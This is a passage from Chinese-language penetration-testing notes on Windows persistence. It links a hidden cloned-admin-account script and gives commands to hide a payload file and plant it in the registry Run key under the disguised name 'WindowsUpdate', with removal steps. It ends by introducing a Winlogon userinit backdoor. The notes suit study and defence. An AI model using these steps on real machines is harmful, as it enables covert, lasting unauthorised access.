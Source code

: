 - [Ch1ngg/AggressorScript-CreateCloneHiddenAccount](https://github.com/Ch1ngg/AggressorScript-CreateCloneHiddenAccount) - 创建一个克隆隐藏的管理员账号
- [你能找到我么？-- 隐藏用户建立(Powershell)](https://evi1cg.me/archives/UserClone.html)

---

## 各种权限维持后门姿势

**文章**
- [内网渗透-权限维持](http://rtshield.top/2019/09/16/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F-%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81/)

### MSF权限维持

内容参见 [metasploit 笔记](../../工具/metasploit笔记.md#权限维持) 权限维持部分

---

### 其他权限维持

**注册表后门**
```
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```
原理就是在注册表的启动项下，新建一个键值对，键可变，值为后门程序的路径

1. 上传后门程序

2. 隐藏文件
    ```
    attrib "C:\Windows\Temp\payload.exe" +h +s
    ```

3. 通过注册表加入启动项
    ```
    reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v WindowsUpdate /t REG_SZ /d "C:\Windows\Temp\payload.exe" /f
    ```
    `/v` 后面为键的名称，`/t` 为键的类型，`/d` 为该键具体的值，`/f` 意为强制覆盖现有项

- 清除后门
    ```
    reg delete HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v WindowsUpdate /f
    ```
    删除注册表下对应的键值

    ```
    del C:\Windows\Temp\payload.exe
    ```
    清除后门程序

**userinit 注册表后门**
```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```
原理就是用户在登录时，winlogon 会自动运行其中指定的程序
